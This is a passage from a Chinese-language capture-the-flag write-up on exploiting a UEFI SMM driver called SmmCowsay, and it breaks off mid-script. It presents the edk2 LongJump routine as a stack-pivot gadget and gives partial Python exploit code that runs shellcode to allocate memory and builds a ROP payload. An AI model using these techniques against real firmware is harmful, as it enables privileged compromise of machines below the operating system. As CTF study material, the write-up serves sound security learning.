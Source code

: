 那又回到最初的问题：如何栈迁移？事实上有非常多 gadget 可以实现这一步，但是可以找到一个最适用的 gadget：[`MdePkg/Library/BaseLib/X64/LongJump.nasm`](https://github.com/tianocore/edk2/blob/86c8d69146310f24069701053a27153ae536ebba/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54)
```c
    mov     rbx, [rcx]
    mov     rsp, [rcx + 8]
    mov     rbp, [rcx + 0x10]
    mov     rdi, [rcx + 0x18]
    mov     rsi, [rcx + 0x20]
    mov     r12, [rcx + 0x28]
    mov     r13, [rcx + 0x30]
    mov     r14, [rcx + 0x38]
    mov     r15, [rcx + 0x40]
    // ...
    jmp     qword [rcx + 0x48]
```
它可以用第一个参数指向的内存上的信息设置好 rsp 与其它寄存器，再跳转到目标地址上，简直是完美的栈迁移 gadget。还有一点是 `LongJump.nasm` 在 MdePkg 的 BaseLib 中提供的实现，常用于某些错误处理或清理工作中，直接跳回到一个已知的稳定状态（如错误恢复点），属于核心库的一部分，因此大部分驱动里都会带有这个 gadget。

接下来可以尝试把断点下在 `LongJump_gadget` 上（_常见工具如 ropper 默认情况下可能找不到这个 gadget，对于这种小型 elf 我个人喜欢直接用 `objdump -d <filename> | nvim` 来找_），目前利用代码如下：

```python
# ...
lianpwn.lg_inf("STEP 1: AllocatePool")
allocated_buf = execute_shellcode(
    asm(f"""
    // AllocatePool(EfiRuntimeServicesData, 0x1000, &buffer);
    mov rcx, 6;
    mov rdx, 0x1000;
    lea r8, [rip + allocated_buf];
    mov rax, {AllocatePool_addr};
    call rax;

    mov r15, [rip + allocated_buf];
    ret;
 
allocated_buf:
""")
)[14]
lianpwn.lg("allocated_buf", allocated_buf)

lianpwn.lg_inf("STEP 2: Construct ROP - Stack Pivoting")

SmmCowsay_base = 0x00007EE7000
longjump_gadget = SmmCowsay_base + 0x34B0

payload = flat(
    {
        0x00: [
            0xBBBBBBBB,  # rbx
            allocated_buf + 0x18 + 0x48 + 0x8,  # after ( (guid + size) + 0x48 + 8)
        ],
        0x48: [
            0xDEADBEEF,
        ],
        400: [longjump_gadget],
    },
    word_size=64,
)


lianpwn.lg_inf("STEP ?: Finally - Send ROP Payload and Trigger Vuln")

execute_shellcode(
```